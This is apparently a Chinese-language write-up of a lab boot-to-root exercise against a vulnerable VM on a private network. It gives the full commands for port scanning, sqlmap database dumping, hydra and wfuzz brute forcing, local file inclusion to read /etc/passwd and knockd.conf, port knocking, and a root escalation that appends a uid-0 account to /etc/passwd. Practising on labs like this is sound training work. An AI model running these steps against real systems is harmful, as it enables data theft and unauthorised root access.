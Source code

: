 
# 0x00环境

攻击机：kali：192.168.1.28

靶机DC-1：192.168.1.17


# 0x01实战


## 端口扫描

```
nmap -sV -A 192.168.1.17
```

![image-20220113111727814.png](_img\assets/1652257220065-75a6fb21-dba6-4fa4-b54d-931111c4cbe6.png)


## 目录扫描

![image-20220113112512459.png](_img\assets/1652257224704-f10d698d-108c-4f8b-b3a6-ba0c9e977f48.png)

扫描出includes目录，可能存在文件包含漏洞

![image-20220113112641207.png](_img\assets/1652257228089-5e8b0a30-62b4-4e06-b8e1-cc0d3e6026ca.png)

扫描出config.php文件，可惜没有什么类容

![image-20220113112717050.png](_img\assets/1652257230753-ba73107f-ddae-439c-a7ff-0414602e5248.png)


## 漏洞发现

查看网页源码，没有什么有用的信息

![image-20220113112842706.png](_img\assets/1652257233762-3e0a9406-12ca-40d0-b09b-c9ba4cc1419f.png)

访问HTTP服务，发现在search标签处存在SQL注入漏洞

![image-20220113112959461.png](_img\assets/1652257236648-af522636-e02e-4804-9b8d-d9f5ed509c2a.png)

![image-20220113113007650.png](_img\assets/1652257239365-17a149b1-3a83-4f9d-8785-e97404e19e92.png)

使用burpsuite抓包，将请求包保存到test.txt文档中，使用sqlmap扫描

```
sqlmap -r test.txt --dbs
```

![image-20220113113950895.png](_img\assets/1652257242182-74d5e002-5954-4a14-9b20-c8086ec7deae.png)

暴表

```
sqlmap -r test.txt -D users --tables
```

![image-20220113114115178.png](_img\assets/1652257244846-bccea49f-0c0b-4c9a-93ef-c4183cd1e438.png)

暴字段

```
sqlmap -r test.txt -D users -T UserDetails --columns
```

![image-20220113114212216.png](_img\assets/1652257247771-21eb0930-8785-44c7-8c17-7383d30046d5.png)

拖库

```
sqlmap -r test.txt -D users -T UserDetails -C username,password --dump
```

![image-20220113114325946.png](_img\assets/1652257251072-8b39a975-b152-4340-8717-24822c2a1f4c.png)

将得到的账户和密码分别保存为账号字典和密码字典使用burpsuite进行爆破（手动登录太麻烦了），并没有找到成功登录的账号

![image-20220113140041558.png](_img\assets/1652257253930-d386b5f0-9cba-4256-8790-75eeeb89551c.png)

尝试使用wfuzz进行爆破，依然是没有成功匹配的账户

```
wfuzz -z file,username.txt -z file,password.txt -d "username=FUZZ&password=FUZ2Z" http://192.168.1.17/manage.php
```

![image-20220113140747442.png](_img\assets/1652257257196-9a4933d7-e7a6-4beb-8a3d-5cc5fa4c9813.png)

使用sqlmap爆破另外一个库

```
sqlmap -r test.txt --dbs
sqlmap -r test.txt -D Staff --tables
sqlmap -r test.txt -D staff -T Users --columns
sqlmap -r test.txt -D Staff -T Users -C Username,Password --dump
```

![image-20220113141312641.png](_img\assets/1652257260662-3850ebb9-46b0-471e-b2aa-ad3a1339af51.png)

md5解密得到密码transorbital1

![image-20220113141503234.png](_img\assets/1652257264552-b16564a5-9c1c-4751-8e7e-35c0b6f455b1.png)

尝试登录后台，成功，登陆后台发现并没有什么东西不过在页面提示了`File does not exist`联想到上面说的可能存在文件包含漏洞

![image-20220113141625420.png](_img\assets/1652257268459-bdb3bd8d-9953-4d7a-9eff-eb824d568f40.png)

可能存在文件包含漏洞，但是我们不知道包含参数是什么，使用wfuzz测试探测参数

```
wfuzz -b 'PHPSESSID=5ooo4v00ecl2d0lft26rlh12k5' -w /usr/share/wfuzz/wordlist/general/common.txt http://192.168.1.17/manage.php?FUZZ=../../../../../../../../etc/passwd
```

![image-20220113144111179.png](_img\assets/1652257272656-e10131bd-a9de-4697-8e2d-4d24b647c0b6.png)

添加过滤条件，成功得到参数`file`

```
wfuzz --hw 87 -b 'PHPSESSID=5ooo4v00ecl2d0lft26rlh12k5' -w /usr/share/wfuzz/wordlist/general/common.txt http://192.168.1.17/manage.php?FUZZ=../../../../../../../../etc/passwd
```

![image-20220113144123330.png](_img\assets/1652257275991-b96be7fe-7cdf-47a8-95a9-81c05797c9f0.png)

访问/etc/passwd文件，发现一些账户和我们前面爆破第一个数据库里面的账户相同

![image-20220113144423037.png](_img\assets/1652257284811-5eec841c-81f3-4523-8046-4cd7d7525693.png)

使用前面第一个数据库里面的账户和密码来爆破SSH服务，链接失败

```
hydra -L username.txt -P password.txt 192.168.1.17 ssh
```

![image-20220113144855856.png](_img\assets/1652257289389-36792087-ebc8-4164-8534-c0ddd58ce404.png)

再次扫描22号端口

```
nmap -sV -A 192.168.1.17 -p 22
```

![image-20220113144943596.png](_img\assets/1652257292478-cef0d39e-389c-4372-8a97-3e631930aa13.png)

可能存在的问题

- 不允许字典中的用户远程链接
- 22端口可能不是ssh服务
- 启用了端口敲门服务

互联网搜索[端口敲门服务](https://www.cnblogs.com/wsjhk/p/5508051.html)发现若是存在端口敲门服务则在etc目录下会存在knockd.conf文件

![image-20220113145644035.png](_img\assets/1652257297224-1cddf782-e583-446f-a8f5-44f7ff20c6a4.png)

利用文件包含漏洞查看是否存在该文件

![image-20220113145822467.png](_img\assets/1652257300875-3cbafffd-8afd-41d4-8cfc-87a81d7e3cf5.png)

存在该文件，而且我们还得到了端口开门序号7469、8475、9842

敲门开启SSH服务

![image-20220113150446134.png](_img\assets/1652257304319-4ec76123-d464-4772-a3e6-2b5667fce37a.png)

```
nmap -p 7469 192.168.1.17
nmap -p 8475 192.168.1.17
nmap -p 9842 192.168.1.17
```

失败

![image-20220113151723785.png](_img\assets/1652257308213-89dc696a-8f8f-4148-bfb2-3bd4dd521250.png)

使用natcat命令敲门，成功

```
for x in 7469 8475 9842; do nc 192.168.1.17 $x;done
```

![image-20220113151945334.png](_img\assets/1652257312677-7b72d27f-234a-4749-b890-9f84497128ad.png)

再次爆破，得到了三个账户

```
hydra -L username.txt -P password.txt 192.168.1.17 ssh
```

![image-20220113152319067.png](_img\assets/1652257316111-6ac70ab6-2ff9-48c4-b45a-ccf33295be37.png)

依次登录查找最大权限的账户，在janitor用户里面发现新的密码

![image-20220113153040368.png](_img\assets/1652257463193-a44804db-48fc-4ed7-a41b-e2d4c3ae283c.png)

将密码提取出来结合前面的username.txt再次使用hydra进行爆破

```
hydra -L username.txt -P password2.txt 192.168.1.17 ssh
```

得到一个新用户fredf

![image-20220113153404970.png](_img\assets/1652257468747-a5426182-3576-4ffc-af4d-c274f687d908.png)

使用fredf账户登录，输入`sudo -l`显示我们可以使用`root`身份执行`/opt/devstuff/dist/test/test`并且不需要密码

![image-20220113153539605.png](_img\assets/1652257473274-beff5ac9-7aa6-4183-8cf7-476b308abbbc.png)

进入/opt/devstuff/dist/test/执行一下这个test文件

![image-20220113154209448.png](_img\assets/1652257477761-fec611e0-e1e7-45dd-8386-f443a91f0a4f.png)

显示`Usage: python test.py read append`，就是说这个脚本可以以root权限将任意内容写入任意文件。那么我们可以写入一个具有root权限的用户到/etc/passwd文件中。

使用openssl生成我们自己的password

```
openssl passwd -1 -salt XMTX 123456
```

![image-20220113155417506.png](_img\assets/1652257482250-9cf88367-e0e6-4f4c-8f11-60600d0896bf.png)

将我们的内容写入tmp目录下的文件，内容为

```
echo 'XMTX:$1$XMTX$c8g3nQF1CtFDu//blOniM0:0:0::/root:/bin/bash' > /tmp/password
echo "XMTX1::0:0:::/bin/bash" > /tmp/password1
```

![image-20220113155815332.png](_img\assets/1652257493361-a5d156e3-8b87-49f3-bbf6-b712cafcd8b8.png)

利用test脚本将password中的内容追加到/etc/password中并切换到XMTX用户

```
sudo ./test /tmp/password /etc/passwd
```

![image-20220113160218234.png](_img\assets/1652257497063-77705bf2-179d-448d-9ee9-279596be0078.png)

成功得到root权限


## final-flag

在root的根目录下找到flag

![image-20220113160324294.png](_img\assets/1652257501194-c56da56a-19d1-429e-bd4a-9a153a405f94.png)
